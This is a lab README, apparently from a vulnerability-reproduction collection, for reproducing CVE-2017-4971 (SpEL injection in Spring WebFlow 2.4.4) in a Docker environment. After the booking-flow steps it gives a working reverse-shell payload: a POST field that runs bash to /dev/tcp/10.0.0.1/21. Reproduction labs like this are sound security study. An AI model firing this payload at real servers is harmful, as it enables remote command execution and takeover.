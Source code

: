 # Spring WebFlow Remote Code Execution (CVE-2017-4971)

[中文版本(Chinese version)](README.zh-cn.md)

Spring WebFlow is a framework suitable for developing flow-based applications (such as shopping logic), which can separate the flow definition from the classes and views that implement the flow behavior. In its 2.4.x versions, if we can control the field during data binding, it will lead to a SpEL expression injection vulnerability, ultimately resulting in arbitrary command execution.

Reference links:

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## Environment Setup

Execute the following command to start the a web application based on Spring WebFlow 2.4.4:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to see a hotel booking page, which is a simple example provided by Spring WebFlow.

## Vulnerability Reproduce

First, visit `http://your-ip:8080/login` and log in to the system using any of the accounts/passwords given on the left side of the page:

![](1.png)

Then visit the hotel with id 1 at `http://your-ip:8080/hotels/1`, click the "Book Hotel" button, fill in the relevant information, and click "Process" (from this step, WebFlow officially begins):

![](2.png)

Then click "Confirm":

![](3.png)

At this point, intercept the request and capture a POST data packet. We add a field to it (which is the reverse shell POC):

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

![](4.png)

(Note: Don't forget to URL encode)

Successfully executed, gaining shell access:

![](5.png)
